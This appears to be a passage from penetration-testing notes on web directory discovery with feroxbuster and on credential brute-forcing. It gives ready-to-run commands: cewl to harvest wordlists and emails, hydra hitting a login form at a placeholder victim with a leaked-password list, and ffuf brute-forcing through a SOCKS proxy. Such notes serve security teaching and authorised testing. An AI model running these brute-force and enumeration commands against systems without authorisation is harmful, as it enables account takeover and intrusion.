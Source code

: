 Web Directory discovery with feroxbuster (fast scanner written in Rust)

```bash
feroxbuster -u http://IP/ -x txt,html,php,YOUR_EXTENSIONS -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
```

Other web discovery tools:

- dirb
- dirbuster
- wfuzz


Good wordlists to try:
- /usr/share/dirb/wordlists/small.txt
- /usr/share/dirb/wordlists/common.txt
- /usr/share/dirb/wordlists/catala.txt
- /usr/share/dirb/wordlists/big.txt
- /usr/share/dirbuster/wordlists/directory-list-1.0.txt
- /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
- /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
- /usr/share/seclists/Discovery/Web-Content/common.txt
- /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
- /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt


### 2.6.2 Web Credential Bruteforcing

Get a wordlist and emails from the site using `cewl`:

```sh
# save emails to file, min word length = 5
cewl -e --email_file emails.txt -m 5 -w cewl.txt http://VICTIM_IP
```

Hydra is great for hitting web login forms. To use it, first capture a failed login using Burp. You need that to see how it submits the login request and to see how to identify a failed login.

Hydra help/usage for specific module:

```bash
hydra -U http-post-form
```

Web Forms (POST request):

```bash
# using hydra
# string format "<webform-path>:<username-field>=^USER^&<password-field>=^PASS^:<bad-pass-marker>"
# '-l admin' means use only the 'admin' username. '-L userlist.txt' uses many usernames
# '-P wordlist.txt' means iterate through all passwords in wordlist. '-p password123' uses only that one.
# '-t 69': use 69 threads
# change to https-web-form for port 443
hydra -V -f -l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt $VICTIM_IP http-post-form "/blog/admin.php:username=^USER^&password=^PASS^:Incorrect username" -t 64

# proxy-aware password bruteforcing with ffuf
ffuf -x socks5://localhost:1080 -u http://$VICTIM_IP/login -X POST -w /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt -d "Username=admin&Password=FUZZ&RememberMe=true" -fw 6719
```
